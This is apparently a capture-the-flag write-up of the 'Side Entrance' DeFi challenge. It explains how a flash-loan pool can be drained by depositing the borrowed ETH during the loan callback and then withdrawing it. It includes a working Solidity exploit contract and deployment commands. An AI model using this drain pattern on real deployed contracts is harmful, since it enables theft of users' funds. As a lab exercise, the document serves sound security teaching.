 > A surprisingly simple pool allows anyone to deposit ETH, and withdraw it at any point in time.

> It has 1000 ETH in balance already, and is offering free flash loans using the deposited ETH to promote their system.

> Starting with 1 ETH in balance, pass the challenge by taking all ETH from the pool.

## Moving money around

Upon contract a loan, the pool performs a callback:

```solidity
IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();
```

And checks whether the pool ETH balance decreased afterwards:

```solidity
if (address(this).balance < balanceBefore)
    revert RepayFailed();
```

Interestingly, the ETH sent via `deposit` is on the balance of the pool even though it can be reclaimed at any time.

IE, if the ETH from a loan is deposited right away the balance of the pool is unchanged!
That's exactly what the exploit contract does:

```solidity
function execute() external payable {
    SideEntranceLenderPool(msg.sender).deposit{value: msg.value}();
}
```

Of course the contract needs to handle payments and pipe the pool balance to the attacker:

```solidity
receive() external payable {}

function pipe(address pool) external {
    SideEntranceLenderPool(pool).flashLoan(pool.balance);
    SideEntranceLenderPool(pool).withdraw();
    payable(msg.sender).call{value: address(this).balance}("");
}
```

Ignore the warnings and run it with:

```js
const _flush = await (await ethers.getContractFactory('Flush', player)).deploy();
await _flush.pipe(pool.address);
```
